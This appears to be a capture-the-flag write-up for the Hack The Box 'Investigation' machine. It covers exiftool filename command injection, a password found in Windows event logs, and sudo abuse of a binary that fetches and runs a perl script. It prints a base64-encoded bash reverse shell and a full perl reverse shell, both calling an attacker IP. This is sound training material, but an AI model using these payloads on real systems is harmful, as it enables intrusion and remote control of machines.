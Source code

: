 # Investigation

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.236.234
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-24 10:42 EST
Warning: 10.129.236.234 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.236.234
Host is up (0.16s latency).
Not shown: 64782 closed tcp ports (conn-refused), 751 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Web Exploit based. We would have to add `eforenzics.htb` to our `/etc/hosts` file to access the web port.

### Exiftool RCE

The website reveals some web application advertising Digital Forensic Services.

<figure><img src="../../../.gitbook/assets/image (11) (8).png" alt=""><figcaption></figcaption></figure>

Clicking the big Go button reveals that we can upload a jpg file to the website for analysis.

<figure><img src="../../../.gitbook/assets/image (16) (7).png" alt=""><figcaption></figcaption></figure>

When I uploada file, it would produce a link to a report.

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

The file would be a .txt file of output from `exiftool` being used on the file.

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Very obviously, there is a JPG RCE vulnerability here. One possible parameter to inject commands in is the File Name. With the version, I found this vulnerability that allowed for RCE through the pipe character.

{% embed url="https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429" %}

From this, I attempted a few direct OS command injections but it didn't work out well. I then attempted some Base64 encoded stuff, and a simple ping command works!

<figure><img src="../../../.gitbook/assets/image (17) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (21) (7).png" alt=""><figcaption></figcaption></figure>

We can then replace the Base64 encoded command with a simple bash reverse shell and it works!

```
$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.56/4444 0>&1"  ' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Ni80NDQ0IDA+JjEiICAK
```

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

When viewing the `/home` directory, we see there's a `smorton` user that we cannot access.

```
www-data@investigation:/home$ ls -la
total 12
drwxr-xr-x  3 root    root    4096 Aug 27 21:20 .
drwxr-xr-x 18 root    root    4096 Jan  9 16:53 ..
drwxrwx---  3 smorton smorton 4096 Jan  9 10:47 smorton
```

We need to do some looking around. I ran LinPEAS and found an interesting cronjob that was running.

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Some backups of the `/home` directory were being created, and also there was an unquoted service path for the `date` binary.

### Windows Event Logs

Heading to the `/usr/local/investigation/analysed_log` file, we can find a Microsoft Outlook Message there.

```
www-data@investigation:/usr/local/investigation$ ls -la
total 1288
drwxr-xr-x  2 root     root        4096 Sep 30 23:43  .
drwxr-xr-x 11 root     root        4096 Aug 27 21:54  ..
-rw-rw-r--  1 smorton  smorton  1308160 Oct  1 00:35 'Windows Event Logs for Analysis.msg'
-rw-rw-r--  1 www-data www-data       0 Oct  1 00:40  analysed_log
```

I sent this back to my machine via `nc` and opened it using `msfconvert`. Afterwards, we can read the emails. There's a huge base64 encoded zip file attached.

```
Content-Type: text/plain; charset=UTF-8
Content-Disposition: inline
Content-Transfer-Encoding: 8bit

Hi Steve,

Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 

Regards.
Tom
```

I couldn't decode the base64 to get the file for some reason, so I ported the message to my Windows machine and downloaded the file there.

When unzipped, we would get this MS Windows Vista Event Log.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

So the key here is to watch for logging and file transfers that are occurring. We can use this tool to dump the log file into a JSON file for easier reading.&#x20;

{% embed url="https://github.com/omerbenamram/evtx" %}

After looking around the entire log file (for a while), I chanced upon this string when searching for the Authentication term.

<figure><img src="../../../.gitbook/assets/image (12) (9).png" alt=""><figcaption></figcaption></figure>

Turns out that this was the password for `smorton`. We can now `su` and capture the user flag.

### Sudo Binary

When checking sudo privileges as `smorton`, we can find one:

```
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

Attempting to run the binary just does this:

```
smorton@investigation:~$ sudo /usr/bin/binary
Exiting...
```

So I transferred this binary back to my machine and used `ghidra` to see what it does. Here's the decompiled main function:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

We can use this to get these this information:

1. It needs a total of 3 parameters
2. A password of `lDnxUysaQn` is needed as one of the parameters
3. It exeecutes `curl` and `perl` on the script we download
4. Then it cleans up by removing the file.

Simple enough. We should just need to host a perl reverse shell on our machine via Python HTTP and let this binary download and execute it.&#x20;

```perl
use Socket;$i="10.10.14.56";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

After a bit of testing about the ordering of the parameters, I found what works:

```
smorton@investigation:~$ sudo /usr/bin/binary http://10.10.14.56/rev.perl lDnxUysaQn 
Running...
```

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Definitely more on the CTF side of HTB.&#x20;
